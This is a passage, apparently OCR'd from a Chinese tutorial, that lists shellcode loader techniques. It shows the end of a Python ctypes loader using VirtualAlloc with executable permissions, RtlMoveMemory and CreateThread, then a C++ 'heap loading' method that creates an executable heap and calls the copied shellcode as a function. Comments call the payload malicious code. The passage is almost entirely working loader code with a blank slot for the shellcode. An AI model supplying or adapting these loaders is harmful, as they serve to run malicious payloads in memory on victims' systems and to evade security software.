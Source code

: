 ```python
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```



# 4.通过堆加载

这段代码首先创建了一个具有执行权限的堆，然后在堆中分配内存并将shellcode复制到内存中。最后，代码通过直接调用存储在内存中的shellcode来执行它

```cpp
#include <Windows.h>

// 定义 shellcode（恶意代码）
unsigned char shellcode[] = "";

// 主函数
void main() {
    // 创建一个具有执行权限的堆，以存储shellcode
    HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

    // 在创建的堆中分配一块内存，并将其地址赋给buffer
    char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

    // 将shellcode复制到buffer指向的内存中
    memcpy(buffer, shellcode, sizeof(shellcode));

    // 下面是另一种创建线程的方法，这里被注释掉了
    // 创建一个新线程并执行buffer指向的内存中的shellcode
    // HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);

    // 等待新线程执行完毕
    // WaitForSingleObject(hThread, INFINITE);

    // 将buffer指向的内存地址强制转换为一个函数指针，并调用该函数，执行shellcode
    ((void(*)(void)) buffer)();
}

```
